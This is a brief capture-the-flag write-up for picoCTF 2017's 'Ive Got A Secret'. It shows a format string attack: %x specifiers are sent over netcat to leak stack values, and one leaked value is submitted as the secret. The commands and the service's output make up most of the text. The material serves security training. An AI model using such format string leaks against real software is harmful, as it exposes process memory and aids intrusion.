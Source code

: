 # Ive Got A Secret

## Question
  > Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:5320.
  
## Solution
### 1. Try format string attack

    user@shell-web:~$ nc shell2017.picoctf.com 5320              
    Give me something to say!                                        
    %x %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x                           
    40 f7fc7c20,8048792,1,ffffdd34,a0b47876,3,f7fc73c4,ffffdca0,0,f7e
    Now tell my secret in hex! Secret: 0xf7e37a63                    
    As my friend says,"You get nothing! You lose! Good day, Sir!"


　Next challenge


    user@shell-web:~$ nc shell2017.picoctf.com 5320              
    Give me something to say!                                        
    %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,                       
    40,f7fc7c20,8048792,1,ffffdd34,2bde747c,3,f7fc73c4,ffffdca0,0,f7e
    
 Your a0b47876 has changed to 2bde747c... doubtful
    
    Now tell my secret in hex! Secret: 0x2bde747c                    
    flag is here                                 
    Wow, you got it! 
